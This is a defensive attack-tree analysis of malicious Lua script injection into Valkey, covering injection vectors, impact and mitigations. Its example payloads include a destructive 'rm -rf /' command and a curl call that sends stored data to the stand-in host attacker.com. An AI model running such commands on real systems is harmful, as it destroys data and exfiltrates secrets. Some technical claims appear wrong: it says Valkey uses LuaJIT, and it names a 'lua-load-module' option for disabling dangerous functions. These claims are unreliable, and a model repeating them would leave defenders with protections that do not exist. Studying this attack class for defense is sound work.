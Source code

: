 ## Deep Analysis: Inject Malicious Lua Script (AND) HIGH RISK PATH in Valkey

This analysis delves into the attack tree path "Inject Malicious Lua Script (AND) HIGH RISK PATH" within the context of an application using Valkey (a fork of Redis). This path represents a critical vulnerability that can lead to severe consequences.

**Understanding the Attack Path:**

This path highlights a two-stage attack where the successful injection of a malicious Lua script is the foundational step ("AND") leading to a high-risk outcome. It emphasizes that the ability to execute arbitrary Lua code on the Valkey server is the key enabler for further malicious actions.

**Deconstructing the Attack:**

1. **Injection Point Analysis:**  The attacker needs to find a way to introduce their malicious Lua script into the Valkey server's execution context. Common injection points include:

    * **`EVAL` and `EVALSHA` Commands:** These are the primary commands for executing Lua scripts in Valkey. If an attacker can control the arguments passed to these commands, they can inject arbitrary Lua code. This is the most direct and common injection vector.
        * **Vulnerability:**  Applications that dynamically construct Lua scripts based on user input or external data without proper sanitization are highly susceptible.
        * **Example:** An API endpoint that allows users to filter data using a custom query, which is then directly embedded into an `EVAL` command.
    * **`SCRIPT LOAD` Command:** While primarily used to load scripts for later execution via `EVALSHA`, vulnerabilities in how scripts are stored or managed could potentially allow for the injection of malicious content during the loading process.
        * **Vulnerability:** Less common, but if there are weaknesses in how Valkey handles script storage or retrieval, an attacker might be able to inject code that gets executed later.
    * **Configuration Files (Less likely, but possible):** While unlikely in default Valkey configurations, if the application or a custom module allows for embedding Lua scripts within configuration files, manipulating these files could be an injection vector.
        * **Vulnerability:**  Depends on the specific application logic and how it handles Valkey configuration.
    * **Exploiting Vulnerabilities in Dependent Libraries:** While not directly a Valkey issue, vulnerabilities in LuaJIT (the Lua Just-In-Time compiler used by Valkey) or other libraries used by Valkey could potentially be leveraged to execute arbitrary code, effectively bypassing Valkey's intended Lua execution mechanisms.
        * **Vulnerability:** Requires a deep understanding of the underlying libraries and their potential weaknesses.
    * **Internal Access/Insider Threat:** An attacker with privileged access to the Valkey server (e.g., a compromised administrator account) could directly use the `EVAL` or `SCRIPT LOAD` commands to inject malicious scripts.
        * **Vulnerability:** Relies on weak access controls and compromised credentials.

2. **Malicious Lua Script Crafting:** Once an injection point is identified, the attacker crafts a Lua script with malicious intent. The capabilities of Lua within the Valkey context make this a powerful attack vector. Potential malicious actions include:

    * **Accessing Sensitive Data:** Lua scripts can interact with Valkey's data structures. The attacker can retrieve keys, values, or entire datasets, potentially exposing sensitive information like user credentials, financial data, or confidential business logic.
        * **Example:** `redis.call('GET', 'sensitive_user_data')`
    * **Executing Arbitrary Commands on the Server:**  Lua has the capability to interact with the operating system through functions like `os.execute` or `io.popen` (if not disabled in Valkey's configuration). This grants the attacker the ability to run arbitrary commands on the underlying server, leading to complete system compromise.
        * **Example:** `os.execute('rm -rf /')` (highly destructive) or `os.execute('curl attacker.com/exfiltrate?data=' .. redis.call('GET', 'all_data'))` (data exfiltration).
    * **Modifying Data:** The attacker can alter or delete existing data within Valkey, potentially corrupting application state or disrupting service functionality.
        * **Example:** `redis.call('SET', 'critical_flag', 'false')`
    * **Denial of Service (DoS):**  A malicious script can be designed to consume excessive resources (CPU, memory) or cause Valkey to crash, leading to a denial of service for the application.
        * **Example:** An infinite loop or a script that creates a large number of keys.
    * **Establishing Backdoors:** The attacker can inject code that creates new keys or modifies existing ones to facilitate future unauthorized access.
        * **Example:** Setting a new administrator password or creating a key with a malicious script to be executed later.
    * **Lateral Movement:** If the Valkey server has network access, the script could be used to scan for and potentially exploit other systems on the network.
        * **Example:** Using Lua's socket libraries to probe internal network services.

3. **Execution and Impact:** Once the malicious script is injected, it needs to be executed. This typically happens through:

    * **Direct Execution:** Using the vulnerable injection point (e.g., calling `EVAL` with the malicious script).
    * **Triggered Execution:** If the malicious script was loaded using `SCRIPT LOAD`, it can be executed later using `EVALSHA`.
    * **Indirect Execution:** In some complex scenarios, a malicious script might be injected as data and then inadvertently executed by another legitimate script.

**Why This is a "HIGH RISK PATH":**

The "HIGH RISK" designation is entirely justified due to the potential for catastrophic consequences:

* **Complete Server Compromise:** The ability to execute arbitrary commands grants the attacker full control over the Valkey instance and potentially the entire host operating system.
* **Data Breach:** Accessing and exfiltrating sensitive data stored in Valkey can lead to significant financial losses, reputational damage, and legal repercussions.
* **Data Manipulation and Corruption:** Modifying or deleting data can disrupt application functionality, lead to incorrect business decisions, and damage data integrity.
* **Denial of Service:** Rendering the Valkey server unavailable can cripple dependent applications and services.
* **Loss of Confidentiality, Integrity, and Availability (CIA Triad):** This attack path directly threatens all three core principles of information security.

**Mitigation Strategies for the Development Team:**

To address this critical vulnerability, the development team must implement robust security measures:

* **Disable or Restrict Lua Scripting:**
    * **Consider Disabling Lua Entirely:** If Lua scripting is not a core requirement for the application, the safest approach is to disable it completely in the Valkey configuration.
    * **Restrict Access to `EVAL` and `EVALSHA`:** Limit the users or applications that have permission to execute these commands. Implement strong authentication and authorization controls.
    * **Disable Dangerous Lua Functions:** Valkey allows disabling specific Lua functions like `os.execute` and `io.popen` using the `lua-load-module` configuration option. This significantly reduces the potential for system-level compromise.

* **Input Validation and Sanitization:**
    * **Treat All User Input as Untrusted:** Never directly embed user-provided data into Lua scripts.
    * **Parameterize Lua Scripts:**  Design the application to use predefined and vetted Lua scripts where user data is passed as parameters, rather than dynamically constructing scripts.
    * **Whitelist Allowed Script Operations:** If possible, restrict the types of operations that can be performed within Lua scripts.

* **Principle of Least Privilege:**
    * **Run Valkey with Minimal Permissions:** Ensure the Valkey process runs with the least privileges necessary to perform its functions. This limits the impact of a successful command execution.

* **Security Audits and Code Reviews:**
    * **Regularly Review Code:** Conduct thorough code reviews to identify potential injection points in the application's interaction with Valkey. Pay close attention to how user input is handled and how Lua scripts are constructed and executed.
    * **Security Audits of Valkey Configuration:** Regularly audit the Valkey configuration to ensure Lua scripting is appropriately restricted and dangerous functions are disabled.

* **Monitoring and Logging:**
    * **Monitor Valkey Logs:** Implement monitoring for suspicious activity, such as frequent use of `EVAL` or `EVALSHA` by unauthorized users or with unusual script content.
    * **Log All Lua Script Executions:** Enable logging of all executed Lua scripts for auditing and forensic purposes.

* **Rate Limiting and Throttling:**
    * **Implement Rate Limiting:** Limit the frequency of `EVAL` and `EVALSHA` commands from specific sources to prevent brute-force injection attempts.

* **Secure Communication:**
    * **Use TLS/SSL:** Ensure all communication with the Valkey server is encrypted using TLS/SSL to prevent eavesdropping and man-in-the-middle attacks that could lead to script injection.

* **Stay Updated:**
    * **Keep Valkey Updated:** Regularly update Valkey to the latest version to patch known security vulnerabilities.

**Specific Recommendations for the Development Team:**

* **Immediately review all code paths that involve executing Lua scripts in Valkey.** Identify any instances where user input or external data is used to construct Lua scripts dynamically.
* **Prioritize refactoring code to use parameterized scripts or completely eliminate the need for dynamic script generation.**
* **Implement strict input validation and sanitization for any data that interacts with Lua scripting.**
* **Disable dangerous Lua functions like `os.execute` and `io.popen` in the Valkey configuration unless absolutely necessary and with stringent controls.**
* **Implement robust authentication and authorization mechanisms to control access to `EVAL` and `EVALSHA` commands.**
* **Establish comprehensive monitoring and logging for Lua script execution.**

**Conclusion:**

The "Inject Malicious Lua Script (AND) HIGH RISK PATH" is a critical security concern for any application using Valkey's Lua scripting capabilities. It represents a significant attack vector that can lead to complete system compromise and severe data breaches. By understanding the mechanisms of this attack and implementing the recommended mitigation strategies, the development team can significantly reduce the risk and protect their application and infrastructure. This requires a proactive and security-conscious approach throughout the development lifecycle.

